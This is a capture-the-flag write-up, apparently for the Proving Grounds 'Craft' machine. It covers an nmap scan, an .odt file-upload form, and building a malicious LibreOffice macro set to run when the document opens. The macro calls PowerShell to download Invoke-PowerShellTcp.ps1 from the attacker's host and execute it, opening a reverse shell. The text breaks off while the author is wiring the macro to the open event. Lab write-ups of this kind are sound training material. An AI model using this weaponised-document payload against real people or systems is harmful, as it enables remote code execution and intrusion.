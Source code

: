 ### Craft Proving Grounds Practice

### Difficulty = Intermediate

### IP Address = 192.168.175.169

Nmap Scan

```
└─$ nmap -sCV -A 192.168.175.169 -p80 -oN nmapscan                     
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-23 23:35 WAT
Nmap scan report for 192.168.175.169
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Craft
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.55 seconds
```

From the scan we can tell that only one tcp port is open

I'll head over to see what it is
![image](https://user-images.githubusercontent.com/113513376/221046662-3d73f892-cb01-4e17-8966-59ce005fb08c.png)

It doesn't contain anything much looking below shows a file upload form
![image](https://user-images.githubusercontent.com/113513376/221056128-935d2864-241a-448a-9b18-1a4122b93bff.png)

Uploading any file shows that it only accepts a .odt file 
![image](https://user-images.githubusercontent.com/113513376/221056229-d2f6ed55-35af-41c1-8eb0-7cbf5839908a.png)

After trying to upload a fake .odt file shows that it will be viewed soon
![image](https://user-images.githubusercontent.com/113513376/221056321-609ab0eb-cb2d-4baf-a87c-34899df2962e.png)

So with this we know that we can upload a .odt file which is just like an excel spreadsheet

But lets say if we manage to even upload a .php file we won't be able to execute it cause its been viewed by a person (bot)

Now we can perform a macros attack

Which basically puts in a malicious content in the file then after it is being viewed the macros content will be executed

### Payload Creation 

Here's what i'll do 
![image](https://0xdf.gitlab.io/img/image-20191126164802663.png)

```
I’ll open Calc, and go to Tools –> Macros –> Organize Macros –> LibreOffice Basic:
```

In the dialog box that pops up, I’ll select the document I’m working in on the left side (Untitled 1) and click “New”. I’ll give the module a name (“evil”), and click Ok to be taken to the macro editor:
![image](https://user-images.githubusercontent.com/113513376/221057141-7fc7502d-b1de-44bf-8b28-656672c72fda.png)

OpenOffice macros use Basic, a similar but [slightly different](https://wiki.openoffice.org/wiki/Documentation/FAQ/Macros/Can_I_use_my_Microsoft_Office_macros%3F) language to the VBA that’s in MS macros. To run a command on a Windows host from LibreOffice Basic, I’ll need to put it into Shell() as a string. So I wrap my command in "". To nest quotes, I’ll use two double quotes (""). I’ll call Shell to execute some simple download and execute code:

```
REM  *****  BASIC  *****

Sub Main

    Shell("cmd /c powershell ""IEX(New-Object Net.Webclient).downloadString('http://192.168.45.5/Invoke-PowerShellTcp.ps1')""")
    
End Sub
```

#### AutoOpen

Now I need to make sure this macro is run when the document is opened. I'll close the macro editors, and back in the document, go to Tools –> Customize -> Events tab:
![image](https://user-images.githubusercontent.com/113513376/221057696-e6d15dd4-c16c-4427-9b8c-79b4bc4a60fb.png)

I’ll select "Open Document" and click on the "Macro…" button. I'll navigte to select my macro:





